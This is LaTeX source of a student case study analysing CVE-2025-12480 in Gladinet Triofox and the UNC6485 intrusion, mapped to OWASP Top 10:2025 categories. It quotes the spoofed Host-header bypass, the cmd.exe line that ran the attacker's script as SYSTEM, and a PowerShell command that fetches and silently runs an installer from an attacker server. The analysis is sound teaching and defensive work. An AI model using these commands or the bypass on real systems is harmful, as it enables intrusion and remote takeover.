\documentclass[11pt,a4paper]{article}

% ---------- packages ----------
\usepackage{fontspec}
\setmainfont{Latin Modern Roman}
\setsansfont{Latin Modern Sans}
\setmonofont{Latin Modern Mono}[Scale=0.92]
\usepackage{microtype}
\usepackage[a4paper,top=25mm,bottom=24mm,left=24mm,right=24mm,headsep=8mm,footskip=12mm]{geometry}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{booktabs}
\usepackage{tabularx}
\usepackage{array}
\usepackage{colortbl}
\usepackage{caption}
\usepackage{fancyhdr}
\usepackage{needspace}
\usepackage{tikz}
\usetikzlibrary{arrows.meta,positioning,calc,shapes.geometric,fit,backgrounds}
\usepackage[hidelinks]{hyperref}
\usepackage[nameinlink]{cleveref}

% ---------- colours (neutral greys only; no blue) ----------
\definecolor{ink}{gray}{0.10}          % near-black body/headings
\definecolor{rule}{gray}{0.72}
\definecolor{headergrey}{gray}{0.90}   % table header fill
\definecolor{figbg}{gray}{0.975}       % figure background
\definecolor{meta}{gray}{0.45}         % secondary labels
\definecolor{codebg}{gray}{0.96}
\definecolor{boxline}{gray}{0.80}

\color{ink}

% ---------- headings ----------
\titleformat{\section}{\needspace{3\baselineskip}\normalfont\large\bfseries\color{ink}}{\thesection}{0.6em}{}
\titleformat{\subsection}{\needspace{2.5\baselineskip}\normalfont\normalsize\bfseries\color{ink}}{\thesubsection}{0.6em}{}
\titlespacing*{\section}{0pt}{1.4ex plus .3ex minus .2ex}{0.7ex plus .15ex}
\titlespacing*{\subsection}{0pt}{1.1ex plus .25ex minus .15ex}{0.5ex plus .1ex}

% ---------- captions ----------
\captionsetup{font={small},labelfont={bf},labelsep=period,skip=5pt}
\captionsetup[table]{position=top}

% ---------- headers / footers ----------
\pagestyle{fancy}
\fancyhf{}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0pt}
\renewcommand{\headrule}{\hbox to\headwidth{\color{rule}\leaders\hrule height \headrulewidth\hfill}}
\fancyhead[L]{\footnotesize\color{meta}CVE-2025-12480: Broken Access Control to RCE in Gladinet Triofox}
\fancyhead[R]{\footnotesize\color{meta}\thepage}
\fancyfoot[C]{\footnotesize\color{meta}BCSE319L -- Penetration Testing and Vulnerability Analysis}

\setlength{\parskip}{0.45em}
\setlength{\parindent}{0pt}
\renewcommand{\arraystretch}{1.12}
\setlist{nosep,leftmargin=1.4em,topsep=2pt,itemsep=2pt}

% ---------- inline code ----------
\newcommand{\code}[1]{{\small\ttfamily #1}}
\newsavebox{\cbbox}
\newenvironment{codeblock}
  {\par\needspace{3\baselineskip}\vspace{3pt}\begin{lrbox}{\cbbox}\begin{minipage}{\dimexpr\linewidth-1.6em}\footnotesize\ttfamily\raggedright\vspace{3pt}}
  {\vspace{3pt}\end{minipage}\end{lrbox}\noindent\hspace*{0.4em}\colorbox{codebg}{\usebox{\cbbox}}\par\vspace{3pt}}

% evidence-tier tag
\newcommand{\tier}[1]{{\small\color{meta}\textsf{[#1]}}}

\hyphenation{Tri-o-fox Gla-di-net lo-cal-host}

\begin{document}

% ======================================================================
% TITLE PAGE
% ======================================================================
\begin{titlepage}
\thispagestyle{empty}
\centering
\setlength{\parskip}{0pt}

\vspace*{2mm}
\includegraphics[width=0.74\textwidth]{figs/vit_logo.png}

\vspace{3mm}
{\color{rule}\rule{\textwidth}{0.4pt}}

\vspace{11mm}
{\color{meta}\large School of Computer Science Engineering and Information Systems (SCORE)}\\[2mm]
{\color{meta}\normalsize BCSE319L -- Penetration Testing and Vulnerability Analysis}

\vspace{12mm}
{\color{meta}\normalsize Case Study 2}\\[3mm]
{\LARGE\bfseries CVE-2025-12480: From Broken Access\par}
\vspace{2mm}
{\LARGE\bfseries Control to Remote Code Execution\par}
\vspace{2mm}
{\LARGE\bfseries in Gladinet Triofox\par}

\vspace{6mm}
{\large An OWASP Top 10:2025 (A01 -- Broken Access Control) Analysis\par}
{\normalsize of the UNC6485 Intrusion Campaign\par}

\vspace{14mm}
{\color{rule}\rule{0.55\textwidth}{0.4pt}}
\vspace{8mm}

\begin{tabular}{r@{\hspace{1.2em}}l}
\textbf{Submitted by} & Anshveer Singh\\
\textbf{Registration number} & 23BCE0703\\
\textbf{Semester} & Fall Semester 2026--2027\\[3mm]
\textbf{Course} & BCSE319L -- Penetration Testing \\ & and Vulnerability Analysis\\[3mm]
\textbf{Faculty} & Dr.\ K.\ Thangaramya\\
 & Assistant Professor Sr.\ Grade 2, SCOPE\\
\end{tabular}

\vfill
{\color{meta}\normalsize Vellore Institute of Technology, Vellore}\\
{\color{meta}\footnotesize Submitted \today}

\end{titlepage}

\setcounter{page}{1}

% ======================================================================
% EXECUTIVE SUMMARY
% ======================================================================
\section{Executive Summary}

In November 2025, Mandiant Threat Defense disclosed the active exploitation of CVE-2025-12480, an improper access control vulnerability in Gladinet's Triofox file-sharing and remote access platform. A single missing authorisation check let an unauthenticated, remote attacker reach the application's first-run setup pages long after installation was complete. From that foothold the threat cluster tracked as UNC6485 created a native administrator account, abused Triofox's built-in anti-virus feature to run a script as the \code{SYSTEM} account, and went on to deploy legitimate remote management tooling, tunnel Remote Desktop traffic out over SSH, and attempt domain privilege escalation. The flaw carries a CVSS 3.1 base score of 9.1 and was added to the CISA Known Exploited Vulnerabilities catalogue on 12 November 2025.

This case study reconstructs the documented attack chain from primary vendor and incident sources, then examines why a flaw of this class belongs at the top of the OWASP Top 10. The 2025 edition keeps Broken Access Control as category A01, and the Triofox intrusion is close to a textbook instance of it: a server-side authorisation decision was driven by an attacker-controllable value, the HTTP \code{Host} header. The analysis maps the incident primarily to A01:2025 and, where the evidence supports it, to the secondary categories of Security Misconfiguration (A02), Insecure Design (A06), and Security Logging and Alerting Failures (A09). It keeps three things apart throughout: facts documented by Mandiant, Rapid7, and the CVE record; the author's interpretation of them; and a proposed, authorised-lab testing methodology. No production Triofox system was accessed, and no result is presented as observed first-hand. The closing sections weigh the controls that would have interrupted or detected the chain, from server-side origin validation to protection of initialisation functionality, least privilege for the anti-virus integration, patch management, and the alerting that turned a quiet compromise into a 16-minute containment.

% ======================================================================
% INTRODUCTION
% ======================================================================
\section{Introduction}

Managed file transfer and enterprise file-sharing products sit in an awkward position. They are deliberately exposed to the internet so that staff and partners can reach documents from anywhere, and they are trusted with the credentials and storage that make them worth attacking. That combination has made the category a recurring target. Gladinet's own product family illustrates the pattern: CentreStack and Triofox absorbed three separately tracked, actively exploited vulnerabilities during 2025 alone.

CVE-2025-12480 is the most instructive of the three because its root cause is so ordinary. There was no memory-corruption primitive, no cryptographic break, and no novel exploitation research. A page that should only ever be reachable during first-time setup remained reachable afterwards, and the check meant to gate it trusted a field that any client can set. Everything downstream, including code execution as \code{SYSTEM} and lateral movement toward Domain Admins, followed from that one logic error. That makes it a useful anchor for the OWASP Top 10:2025, whose refreshed list keeps Broken Access Control at number one after every tested application in the contributing dataset showed some form of it. The incident shows what the category looks like in production, how a low-complexity flaw chains into total compromise, and where testing and design controls could have broken the chain.

\subsection{Scope and evidence tiers}

To keep analysis honest, the report labels claims by their basis. Statements drawn directly from primary sources are marked \tier{documented}. The author's reasoning about those facts is marked \tier{interpretation}. Testing activity that is proposed but not performed is marked \tier{proposed}. The reader should assume no access to the affected production environment at any point.

% ======================================================================
% BACKGROUND
% ======================================================================
\section{Background}

\subsection{The product and the vulnerability}

Triofox is a Windows-hosted platform that turns existing file servers into a browser- and agent-accessible service with remote access, sharing, and synchronisation. It runs on IIS as an ASP.NET application. On first installation, Triofox launches a setup workflow at \code{AdminDatabase.aspx} where an operator selects a database backend, optionally connects LDAP, and creates the initial native administrator, referred to in the product as a cluster admin.

CVE-2025-12480 is recorded by Mandiant, acting as a CVE Numbering Authority under Google, as an improper access control flaw: Triofox versions prior to 16.7.10368.56560 allow access to those initial setup pages even after setup has completed \tier{documented}. \Cref{tab:profile} collects the verified vulnerability metadata.

\begin{table}[htbp]
\centering
\caption{Vulnerability profile for CVE-2025-12480.}
\label{tab:profile}
\small
\begin{tabularx}{\textwidth}{>{\bfseries}p{0.30\textwidth} X}
\toprule
\rowcolor{headergrey}\textbf{Attribute} & \textbf{Value} \\
\midrule
CVE identifier & CVE-2025-12480 \\
Assigning CNA & Mandiant (under Google) \\
Weakness class & CWE-284, Improper Access Control \\
CVSS 3.1 base score & 9.1 (Critical) \\
CVSS 3.1 vector & AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N \\
Affected software & Triofox (and CentreStack) before 16.7.10368.56560 \\
Fixed version & 16.7.10368.56560, released 26 July 2025 \\
Version exploited in the wild & 16.4.10317.56372 \\
Record published & 10 November 2025 \\
Added to CISA KEV & 12 November 2025 (remediation due 3 December 2025) \\
Attributed activity & UNC6485 (Google Threat Intelligence Group) \\
\bottomrule
\end{tabularx}
\end{table}

The CVSS vector is worth reading rather than just scoring. The attack is network-reachable (\code{AV:N}), needs low complexity and no privileges or user interaction (\code{AC:L/PR:N/UI:N}), and causes high confidentiality and integrity impact. Availability is scored none (\code{A:N}): the flaw hands an attacker the system rather than denying it to others. A score of 9.1 rather than a maximal 10.0 reflects that unchanged scope and absent availability impact, not any difficulty in exploitation.

\subsection{A family of flaws, not an isolated bug}

The Triofox and CentreStack line had already been under pressure through 2025, which matters for how defenders should read this incident. \Cref{tab:family} lists the related CVEs. The pattern is consistent: unauthenticated or low-privilege access flaws in an internet-facing product, each quickly exploited after disclosure. CVE-2025-12480 was not a zero-day; Gladinet had shipped the fix on 26 July 2025, roughly a month before the first observed exploitation on 24 August 2025 \tier{documented}. The gap between a patch being available and being applied is where this campaign lived.

\begin{table}[htbp]
\centering
\caption{Related actively exploited vulnerabilities in the Gladinet product family, 2025.}
\label{tab:family}
\small
\begin{tabularx}{\textwidth}{p{0.17\textwidth} p{0.20\textwidth} X p{0.11\textwidth}}
\toprule
\rowcolor{headergrey}\textbf{CVE} & \textbf{Weakness} & \textbf{Summary} & \textbf{CVSS} \\
\midrule
CVE-2025-30406 & Use of hard-coded cryptographic key & Hard-coded ASP.NET machine key enables ViewState deserialisation RCE; exploited from March 2025. & 9.0 \\
CVE-2025-11371 & Improper limitation of a pathname (LFI) & Unauthenticated local file inclusion exposes \code{Web.config} and the machine key; exploited from late September 2025. & 6.1 \\
CVE-2025-12480 & Improper access control & Setup pages reachable post-install via \code{Host: localhost}; leads to admin creation and RCE. & 9.1 \\
\bottomrule
\end{tabularx}
\end{table}

% ======================================================================
% PROBLEM STATEMENT
% ======================================================================
\section{Problem Statement}

The central question is narrow and technical: how did a single missing authorisation check in an internet-facing application escalate into \code{SYSTEM}-level code execution and the beginnings of domain compromise, and which controls along that path would have stopped or surfaced the attack?

Answering it requires separating the authorisation failure from everything it enabled. The initial flaw did not, by itself, execute code. It granted access to functionality, specifically the ability to re-run setup, that the design assumed only a trusted first-time operator would reach. The attacker then used legitimate, documented product features to turn that access into execution. That shape, a small trust failure amplified by the normal capabilities of a powerful application, is what makes the incident worth studying. The report investigates four linked questions: what failed in the access control decision and why; how the application's trust assumptions and initialisation workflow let that failure matter; how the built-in anti-virus feature was abused to reach code execution; and how the incident was detected and contained, which points directly at the controls that were missing and the ones that worked.

% ======================================================================
% CASE DESCRIPTION
% ======================================================================
\section{Case Description: Attack Techniques and Methodology}

\subsection{Detection and the anomalous request}

Mandiant's investigation did not begin with the vulnerability; it began with an alert. Google Security Operations raised a composite detection that correlated two behaviours on a customer's Triofox server: the use of remote access utilities tunnelling RDP externally, and file writes into a staging directory under \code{C:\textbackslash WINDOWS\textbackslash Temp}. Within 16 minutes of starting the investigation, Mandiant confirmed the compromise and contained the host \tier{documented}. The speed is a theme the analysis returns to: the detection content, not any preventive control on Triofox itself, is what limited the damage.

Working backward, investigators found an irregular entry in the IIS HTTP log. A request from an external address carried a \code{Referer} header pointing at \code{http://localhost/\ldots}, which should not occur in legitimate traffic from a remote client:

\begin{codeblock}
GET /management/CommitPage.aspx - 443 - 85.239.63[.]37\\
Mozilla/5.0+(Windows+NT+10.0;+Win64;+x64)+\ldots+Safari/537.36\\
http://localhost/management/AdminAccount.aspx 302 0 0 56041
\end{codeblock}

That single \code{localhost} artefact is the thread that unravels the whole chain.

\subsection{The access control failure}

In a test environment, Mandiant confirmed that a normal request to \code{AdminAccount.aspx} or to the setup page \code{AdminDatabase.aspx} is redirected to \code{AccessDenied.aspx}, so an access control was nominally present. The control was defeated by changing one request field. Setting the HTTP \code{Host} header to \code{localhost} granted access to \code{AdminDatabase.aspx} \tier{documented}.

The reason is visible in the vulnerable code. Access to the critical setup page is decided by \code{CanRunCriticalPage()} in the \code{GladPageUILib.GladBasePage} class. The function reads \code{Request.Url.Host} and, if it equals \code{localhost}, returns \code{true} immediately, skipping every other check:

\begin{codeblock}
public bool CanRunCriticalPage()\\
\{\\
\hspace*{1em}Uri url = base.Request.Url;\\
\hspace*{1em}string host = url.Host;\\
\hspace*{1em}bool flag = string.Compare(host, "localhost", true) == 0;\\
\hspace*{1em}if (flag) \{ return true; \}   // all further checks skipped\\
\hspace*{1em}// otherwise: compare client IP against AppSettings["TrustedHostIp"]\\
\hspace*{1em}\ldots\\
\}
\end{codeblock}

Three design faults compound here \tier{documented}. ASP.NET populated \code{Request.Url} from the client-supplied \code{Host} header, so the value the check trusted was attacker-controlled. There was no validation that the request genuinely originated from a loopback connection rather than carrying a spoofed header. And if the optional \code{TrustedHostIp} setting was left unconfigured, the \code{Host} comparison was the only barrier left. The intended meaning of the check, "this request came from the machine itself," was never actually verified; a string that any client can send stood in for proof of origin.

\Cref{fig:code} renders the decision as a flow, which makes the short-circuit explicit: the \code{localhost} branch returns before any trustworthy evidence is consulted.

\begin{figure}[htbp]
\centering
\colorbox{figbg}{%
\begin{minipage}{0.96\textwidth}
\vspace{4pt}
\centering

\begin{tikzpicture}[
  node distance=6mm and 10mm,
  every node/.style={font=\footnotesize},
  box/.style={draw=boxline,fill=white,rounded corners=1pt,align=center,inner sep=4pt,minimum height=7mm},
  dec/.style={draw=boxline,fill=white,diamond,aspect=2.2,align=center,inner sep=1pt},
  grant/.style={draw=ink,thick,fill=white,rounded corners=1pt,align=center,inner sep=4pt},
  deny/.style={draw=boxline,fill=white,rounded corners=1pt,align=center,inner sep=4pt},
  flow/.style={-{Latex[length=2mm]},draw=ink}
]
\node[box] (req) {Incoming request to\\\texttt{AdminDatabase.aspx}};
\node[dec, right=of req] (host) {\texttt{Url.Host}\\\texttt{== localhost}?};
\node[grant, right=18mm of host] (grant) {\textbf{Access granted}\\(all other checks skipped)};
\node[dec, below=9mm of host] (tip) {\texttt{TrustedHostIp}\\configured?};
\node[deny, below=9mm of tip] (deny) {Redirect to\\\texttt{AccessDenied.aspx}};
\node[dec, right=18mm of tip] (ipmatch) {client IP ==\\trusted IP?};

\draw[flow] (req) -- (host);
\draw[flow] (host) -- node[above,font=\scriptsize]{yes (spoofable)} (grant);
\draw[flow] (host) -- node[right,font=\scriptsize]{no} (tip);
\draw[flow] (tip) -- node[left,font=\scriptsize]{no} (deny);
\draw[flow] (tip) -- node[above,font=\scriptsize]{yes} (ipmatch);
\draw[flow] (ipmatch) -- node[right,font=\scriptsize]{no} (deny);
\draw[flow] (ipmatch.east) -- ++(6mm,0) |- node[near start,right,font=\scriptsize]{yes} (grant.east);
\node[font=\scriptsize\itshape,color=meta,above=1pt of grant]{attacker path};
\end{tikzpicture}
\vspace{4pt}
\end{minipage}}
\caption{Conceptual reconstruction of the \texttt{CanRunCriticalPage()} authorisation decision. The \texttt{Host == localhost} branch returns before origin is verified. Redrawn by the author from the vulnerable code published by Mandiant; original synthesis.}
\label{fig:code}
\end{figure}

\subsection{From setup page to administrator}

Access to \code{AdminDatabase.aspx} is not yet code execution, but it is the keys to the application. Following the normal setup workflow, the attacker created a new database, which unlocked the admin initialisation page \code{AdminAccount.aspx}, which in turn redirects to \code{InitAccount.aspx} to create an administrator. UNC6485 used this to create a native admin account named \code{Cluster Admin} and then logged in with it to perform all subsequent actions \tier{documented}. The application treated the re-run of setup as legitimate because, by design, whoever reaches setup is assumed to be the trusted operator standing up the instance for the first time.

\subsection{Anti-virus abuse for code execution}

Triofox includes a feature that scans uploaded files with an anti-virus engine. The operator supplies the path to the scanner executable, and the configured program runs with the privileges of the Triofox parent process, which is the \code{SYSTEM} account. The attacker pointed the anti-virus engine path at their own batch script, \code{centre\_report.bat}, then uploaded a file to a published share to trigger a scan. The script executed as \code{SYSTEM} \tier{documented}:

\begin{codeblock}
C:\textbackslash Windows\textbackslash system32\textbackslash cmd.exe /c\\
""c:\textbackslash triofox\textbackslash centre\_report.bat"\\
\hspace*{1em}C:\textbackslash Windows\textbackslash TEMP\textbackslash eset\_temp\textbackslash ESET\ldots.av"
\end{codeblock}

Nothing here is a software defect in the ordinary sense. The anti-virus integration worked exactly as built. What made it dangerous was the combination of an attacker-reachable configuration surface and a feature that runs an arbitrary operator-specified binary at the highest privilege. The access control flaw supplied the first; the feature's design supplied the second.

\subsection{Post-exploitation}

With \code{SYSTEM} execution, the batch script fetched a second stage. A PowerShell one-liner downloaded an installer from an attacker server and ran it silently \tier{documented}:

\begin{codeblock}
powershell -NoProfile -ExecutionPolicy Bypass -Command\\
"\$url = 'http://84.200.80[.]252/SAgentInstaller\ldots.zip';\\
\$out = 'C:\textbackslash Windows\textbackslash appcompat\textbackslash SAgentInstaller\ldots.exe';\\
Invoke-WebRequest -Uri \$url -OutFile \$out;\\
Start-Process \$out -ArgumentList '/silent' -Wait"
\end{codeblock}

The payload, despite its \code{.zip} name, was an executable: a legitimate Zoho Unified Endpoint Management System (UEMS) installer. The attacker used the UEMS agent to deploy the Zoho Assist and AnyDesk remote access tools, giving durable hands-on access without custom malware. Through Zoho Assist they enumerated SMB sessions and local and domain users, attempted to change account passwords, and tried to add accounts to the local Administrators and \code{Domain Admins} groups \tier{documented}.

For hands-on access, the attacker staged two renamed utilities in \code{C:\textbackslash Windows\textbackslash Temp}: \code{sihosts.exe} (Plink, the PuTTY command-line SSH client) and \code{silcon.exe} (PuTTY). These established an SSH reverse tunnel to a command-and-control server over port 433, through which the C2 could forward inbound RDP to the compromised host on port 3389. \Cref{fig:chain} and \Cref{tab:timeline} give the full sequence.

\begin{figure}[htbp]
\centering
\colorbox{figbg}{%
\begin{minipage}{0.97\textwidth}
\vspace{5pt}
\centering

\begin{tikzpicture}[
  every node/.style={font=\footnotesize},
  stage/.style={draw=boxline,fill=white,rounded corners=1.5pt,align=center,inner sep=5pt,text width=27mm,minimum height=13mm},
  owasp/.style={font=\scriptsize\itshape,color=meta,align=center},
  flow/.style={-{Latex[length=2.2mm]},draw=ink,thick}
]
\node[stage] (s1) {\textbf{1. Access}\\\texttt{Host: localhost}\\reaches setup page};
\node[stage,right=9mm of s1] (s2) {\textbf{2. Admin}\\re-run setup, create\\\texttt{Cluster Admin}};
\node[stage,right=9mm of s2] (s3) {\textbf{3. Execute}\\AV path $\rightarrow$ script\\runs as \texttt{SYSTEM}};
\node[stage,below=11mm of s3] (s4) {\textbf{4. Install}\\Zoho UEMS, Assist,\\AnyDesk};
\node[stage,left=9mm of s4] (s5) {\textbf{5. Escalate}\\enumerate users,\\target Domain Admins};
\node[stage,left=9mm of s5] (s6) {\textbf{6. Tunnel}\\Plink SSH reverse\\tunnel, RDP:3389};

\draw[flow] (s1) -- (s2);
\draw[flow] (s2) -- (s3);
\draw[flow] (s3) -- (s4);
\draw[flow] (s4) -- (s5);
\draw[flow] (s5) -- (s6);

\node[owasp,below=2pt of s1]{A01 Broken\\Access Control};
\node[owasp,below=2pt of s2]{A01 / A06};
\node[owasp,above=2pt of s3]{A06 Insecure\\Design};
\node[owasp,above=2pt of s4]{A02 Misconfig.};
\node[owasp,below=2pt of s5]{post-exploitation};
\node[owasp,below=2pt of s6]{defense evasion};
\end{tikzpicture}
\vspace{5pt}
\end{minipage}}
\caption{Documented CVE-2025-12480 attack chain, with the OWASP Top 10:2025 category most relevant to each stage. Original synthesis from the Mandiant investigation.}
\label{fig:chain}
\end{figure}

\begin{table}[htbp]
\centering
\caption{Incident and disclosure timeline. Dates from Mandiant, Rapid7, and the CISA KEV catalogue.}
\label{tab:timeline}
\small
\begin{tabularx}{\textwidth}{p{0.18\textwidth} X}
\toprule
\rowcolor{headergrey}\textbf{Date (2025)} & \textbf{Event} \\
\midrule
26 July & Triofox 16.7.10368.56560 released, fixing the flaw. \\
24 August & Earliest observed exploitation by UNC6485 (version 16.4.10317.56372). \\
4 October & Mandiant initiates contact with Gladinet about the suspected flaw. \\
8 October & Improper access control vulnerability confirmed. \\
24 October & Gladinet reviews and acknowledges Mandiant's findings. \\
10 November & CVE-2025-12480 published; Mandiant blog released. \\
12 November & Added to the CISA KEV catalogue (remediation due 3 December). \\
\bottomrule
\end{tabularx}
\end{table}

% ======================================================================
% SECURITY CHALLENGES
% ======================================================================
\section{Security Challenges}

The incident exposes several challenges that generalise beyond this one product.

\textit{Access control cannot be delegated to the client.} The failure reduces to a server trusting the \code{Host} header, a value the client writes, as evidence of where a request came from. Any control whose decision depends on attacker-supplied input is not a control. This is harder than it sounds, because frameworks routinely surface request metadata such as \code{Request.Url.Host} or \code{X-Forwarded-For} as if it were trustworthy environmental data.

\textit{Initialisation state is security state.} The application assumed setup pages are reached once, during installation, by a trusted operator; that assumption was never enforced, and the pages stayed live for the lifetime of the instance. First-run functionality exists precisely to bootstrap trust, so it must become inert the moment setup completes.

\textit{Powerful features are attack surface.} The anti-virus integration runs an operator-chosen binary at high privilege. Combined with an exposed configuration page, it became a general-purpose code execution primitive. Any feature that runs a configurable path, or runs as \code{SYSTEM}, must assume its configuration surface may one day be reached by someone untrusted.

\textit{The patch gap is the exposure.} The fix existed a month before exploitation began, yet vulnerable instances remained online and were compromised. For internet-facing infrastructure, the window between patch availability and application is itself the risk, independent of how the flaw was discovered.

\textit{Detection must see through legitimacy.} The attacker used only signed, legitimate tools: Zoho UEMS, Zoho Assist, AnyDesk, PuTTY, and Plink. Detection could not rely on signatures; it had to rely on behaviour, such as a web server process spawning a command shell and renamed binaries establishing reverse tunnels.

% ======================================================================
% ANALYSIS
% ======================================================================
\section{Analysis: OWASP Top 10:2025 Mapping}

\subsection{The 2025 list in brief}

The OWASP Top 10 is a consensus ranking of the most significant web application security risks, built from data across more than 2.8 million applications supplemented by a community survey. The 2025 edition, its eighth, introduces two new categories, Software Supply Chain Failures (A03) and Mishandling of Exceptional Conditions (A10), and folds Server-Side Request Forgery into Broken Access Control. \Cref{tab:owasp} lists all ten so the reader has the full frame; the analysis then concentrates only on the categories the Triofox evidence actually supports. Forcing the incident into all ten would be dishonest, so most of the list is acknowledged and set aside.

\begin{table}[htbp]
\centering
\caption{OWASP Top 10:2025 categories and their relevance to CVE-2025-12480.}
\label{tab:owasp}
\small
\begin{tabularx}{\textwidth}{p{0.07\textwidth} p{0.34\textwidth} p{0.14\textwidth} X}
\toprule
\rowcolor{headergrey}\textbf{ID} & \textbf{Category} & \textbf{Relevance} & \textbf{Basis} \\
\midrule
A01 & Broken Access Control & Primary & Root cause: spoofable \code{Host}-header authorisation. \\
A02 & Security Misconfiguration & Secondary & Live setup pages; optional \code{TrustedHostIp} unset. \\
A03 & Software Supply Chain Failures & None & No dependency or build-chain compromise. \\
A04 & Cryptographic Failures & None & Not implicated in this CVE. \\
A05 & Injection & None & No injection in the documented chain. \\
A06 & Insecure Design & Secondary & Trust-boundary and privileged-feature design. \\
A07 & Authentication Failures & Contributory & Authentication bypassed, not broken. \\
A08 & Software or Data Integrity Failures & None & No integrity-verification failure shown. \\
A09 & Security Logging \& Alerting Failures & Secondary & Detection worked; prevention and native logging did not. \\
A10 & Mishandling of Exceptional Conditions & None & Not implicated. \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{A01:2025 Broken Access Control (primary)}

Broken Access Control remains number one in 2025; every tested application in the contributing dataset exhibited some form of it, and the category maps 40 CWEs including CWE-284, the exact weakness assigned to this CVE. OWASP's own description of the category lists, among its failure modes, bypassing access control checks by modifying the URL or request state, and privilege escalation such as acting as an administrator while unauthenticated. The Triofox flaw is both at once. An unauthenticated remote user modified request state, the \code{Host} header, to bypass a check and reach administrator-only functionality, then became an administrator.

The mapping is definitional, not approximate. CanRunCriticalPage was the access control, and it failed in the way the category describes: enforcement ran where an attacker could influence it. OWASP's first prevention recommendation for A01, that access control be enforced in server-side code the attacker cannot modify, is precisely the control that was missing.

\subsection{A06:2025 Insecure Design (secondary)}

Two aspects of the incident are design problems rather than coding mistakes, which places them in A06. Insecure Design, which maps CWE-501 Trust Boundary Violation among others, concerns controls that were never designed in, as distinct from controls implemented incorrectly.

The first is the trust boundary itself. Treating \code{Host == localhost} as a proxy for "request originated locally" is a trust boundary violation in the CWE-501 sense: data from outside the boundary, a client header, was trusted as though it had come from inside. No amount of careful coding of that check would have made it safe, because the design placed trust in the wrong place.

The second is the privileged feature. Running an operator-supplied executable path as \code{SYSTEM}, reachable from a web-configurable setting, is a design that assumes the configuration surface is always trustworthy. A least-privilege design, in which the scanner runs in a reduced-rights context or validates the executable, would have limited the blast radius even after the access control failed. OWASP's guidance for A06, threat modelling of authentication, access control, and key flows, is aimed squarely at catching assumptions like these before they ship.

A note on where this stops. One could argue the anti-virus abuse is really an injection or an unrestricted-upload problem. The evidence does not support stretching it into A05; nothing in the chain injected code into an interpreter through unsanitised input. The attacker configured a feature to run a file and then supplied the file, which is a design and authorisation issue, not injection.

\subsection{A02:2025 Security Misconfiguration (secondary)}

A02 rose to second place in 2025 and explicitly covers unnecessary features, pages, and accounts left enabled, and insecure default configurations. Two configuration conditions made the Triofox instance exploitable. Setup pages that should have been disabled after installation remained reachable, which matches the category's concern with testing and setup functionality left live in production. And the \code{TrustedHostIp} setting, the one remaining barrier when the \code{Host} check was bypassed, was optional and, in the exploited configuration, effectively absent.

The line between A02 and A01 here is worth drawing carefully. The missing server-side check is the access control flaw (A01). That the deployment left optional hardening unset, and that initialisation functionality was not disabled post-setup, are configuration and deployment weaknesses (A02). Both are real; they operate at different layers.

\subsection{A07 and A09 (contributory and detection)}

Authentication Failures (A07) is contributory rather than central. The attacker did not defeat Triofox's authentication by cracking a credential or forging a token; they bypassed the need for it entirely by reaching account-creation functionality without authenticating. The CVE record itself notes authentication bypass (CAPEC-115) as an impact. It is more accurate to say authentication was rendered irrelevant than to say it failed.

Security Logging and Alerting Failures (A09) is the category the incident both validates and complicates. Triofox's own preventive and logging posture did not stop or flag the compromise; the decisive signal came from external detection content in Google SecOps, which correlated the web process spawning a shell with suspicious file and tunnelling activity. A09 in 2025 emphasises alerting and response, not just log collection, and this incident is a clean illustration: the presence of effective, well-tuned alerting, wherever it lived, is what converted a silent \code{SYSTEM}-level compromise into a 16-minute containment. The lesson is not that logging failed, but that it must exist at a layer the attacker does not control.

\subsection{What testing would have found}

